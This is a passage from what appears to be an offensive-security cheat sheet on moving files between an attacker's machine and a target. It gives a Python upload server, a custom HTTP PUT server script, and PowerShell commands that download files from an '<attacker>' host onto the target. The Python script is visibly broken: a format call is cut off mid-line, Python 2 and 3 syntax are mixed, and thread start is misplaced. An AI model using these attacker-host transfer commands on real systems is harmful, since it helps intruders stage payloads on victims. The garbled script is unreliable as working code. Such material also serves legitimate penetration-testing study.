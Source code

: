 Python3 [uploadserver from PyPI](https://pypi.org/project/uploadserver/). Provides a functionality to upload files at `/upload` URI.

```bash
python3 -m pip install --user uploadserver
python3 -m uploadserver
```

We can write our own custom webservers with Python. Below is an example of server with supported PUT method to transfer files. Run it by using `python HTTPutServer.py <attacker> <port>`.

```python
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler

class PUTHandler(BaseHTTPRequestHandler):
	def do_PUT(self):
		length = int(self.headers['Content-Length'])
		content = self.rfile.read(length)
		self.send_response(200)
		with open(self.path[1:], "w") as f:
			f.write(content)

def run_on(port):
	print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".forma
	server_address = (sys.argv[1], port)
	httpd = HTTPServer(server_address, PUTHandler)
	httpd.serve_forever()

if __name__ == "__main__":
	if len(sys.argv) < 3:
		print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
		sys.exit(1)
	ports = [int(arg) for arg in sys.argv[2:]]
	try:
		for port_number in ports:
			server = Thread(target=run_on, args=[port_number])
			server.daemon = True # Do not make us wait for you to exit
		server.start()
		signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
	except KeyboardInterrupt:
		print "\nPython HTTP PUT Server Stoped."
		sys.exit(1)
```


### PowerShell HTTP


PowerShell includes several ways to download files from HTTP servers. We can use an `Invoke-Webrequest` cmdlet and a `Webclient`:

```powershell
# iwr, wget and curl are aliases for Invoke-WebRequest
# -Uri can be ommited, just specify URL
# -OutFile can be specified as -o
Invoke-WebRequest -Uri "http://<attacker>/<filename>" -OutFile "<destination-path>" 
iwr "http://<attacker>/<filename>" -o "<destination-path>"
wget "http://<attacker>/<filename>" -o "<destination-path>"
curl "http://<attacker>/<filename>" -o "<destination-path>"

(new-object System.Net.WebClient).DownloadFile("http://<attacker>/<filename>","<destination-path>")
```
